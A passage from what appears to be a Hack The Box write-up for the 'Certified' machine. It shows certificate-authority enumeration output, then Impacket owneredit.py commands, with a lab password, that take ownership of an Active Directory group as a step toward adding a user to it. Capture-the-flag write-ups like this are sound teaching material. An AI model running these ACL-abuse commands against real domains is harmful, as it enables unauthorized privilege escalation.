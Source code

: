 ```
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates

```

It gives information about the CA itself, but doesn’t show templates, as there are none that are exploitable from judith.mader.

## Shell as Management\_SVC

### Add Judith.Mader to Management

#### Identify Path

Clicking on the edge in Bloodhound from Judith.Mader to the Management group, there’s a section for Linux Abuse:

[![image-20241027150909038](/img/image-20241027150909038.png)*Click for full size image*](/img/image-20241027150909038.png)

This shows how to modify the owner of the group, then grant the “AddMember” permission, and then add a user to the group.

#### Modify Owner

I’ll use an [Impacket](https://github.com/SecureAuthCorp/impacket) example script, `owneredit.py` to modify the owner. I’ve installed Impacket with `pipx` as well, so all the example scripts are just in my path and can be run directly.

The syntax for `owneredit.py` is slightly different from what Bloodhound shows, but close enough to get it working:

```

oxdf@hacky$ owneredit.py -action write -new-owner judith.mader -target management certified/judith.mader:judith09 -dc-ip 10.10.11.41
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!

```

I did get an error at first that looked like this:

```

oxdf@hacky$ owneredit.py -new-owner judith.mader -target management -action write certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41
Impacket v0.13.0.dev0+20241024.90011.835e1755 - Copyright Fortra, LLC and its affiliated companies                                                  

[-] unsupported hash type MD4

```
